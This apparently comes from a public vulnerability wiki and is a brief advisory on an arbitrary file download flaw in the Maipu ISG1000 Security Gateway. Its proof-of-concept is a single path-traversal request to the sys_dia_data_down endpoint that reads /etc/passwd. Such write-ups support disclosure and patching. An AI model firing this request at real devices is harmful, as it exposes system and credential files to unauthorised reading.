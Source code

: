 # Maipu ISG1000 Security Gateway sys_dia_data_down Arbitrary file download vulnerability

## Vulnerability Description

Maipu ISG1000 Security Gateway There is a vulnerability to download any file on the server. The attacker can obtain any file on the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Maipu ISG1000 Security Gateway</span>

## Network surveying and mapping



## Vulnerability reappears

The login page is as follows



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210604151806596.png)



The requested POC is



```plain
/webui/?g=sys_dia_data_down&file_name=../etc/passwd
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210604152228481.png)



If you gain something, just like it